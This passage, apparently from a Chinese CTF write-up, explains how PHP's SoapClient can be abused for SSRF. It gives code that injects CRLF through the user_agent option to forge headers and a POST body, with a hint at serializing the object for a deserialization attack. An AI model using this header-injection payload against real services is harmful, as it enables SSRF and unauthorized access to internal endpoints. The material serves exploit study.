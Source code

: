 ```plain
public __setSoapHeaders(SoapHeader|array|null $headers = null): bool
public __soapCall(
    string $name,
    array $args,
    ?array $options = null,
    SoapHeader|array|null $inputHeaders = null,
    array &$outputHeaders = null
): mixed
}
```

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。而`__call`触发很简单，就是当对象访问不存在的方法的时候就会触发。

该类的构造函数如下：

```plain
PHP
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
- 第一个参数是用来指明是否是 wsdl 模式，将该值设为 null 则表示非 wsdl 模式。
- 第二个参数为一个数组，如果在 wsdl 模式下，此参数可选；如果在非 wsdl 模式下，则必须设置 location 和 uri 选项，其中 location 是要将请求发送到的 SOAP 服务器的 URL，而 uri 是 SOAP 服务的目标命名空间
```

本地测试一下

```plain
<?php

$client=new SoapClient(null,array('uri'=>'127.0.0.1','location'=>'http://127.0.0.1:9999/flag.php'));

$client->AAA();
?>
```

本地监听 9999 端口

```plain
POST /flag.php HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: PHP-SOAP/7.0.12
Content-Type: text/xml; charset=utf-8
SOAPAction: "127.0.0.1#AAA"
Content-Length: 372
```

我们发现 ua 是可控的，可以通过 CRLF 控制报文

```plain
<?php

$ua="test\r\nX-Forwarded-For:127.0.0.1,127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";

$client=new SoapClient(null,array('uri'=>'127.0.0.1','location'=>'http://127.0.0.1:9999/flag.php','user_agent'=>$ua));

$client->AAA();
//echo urlencode(serialize($client));
?>
```
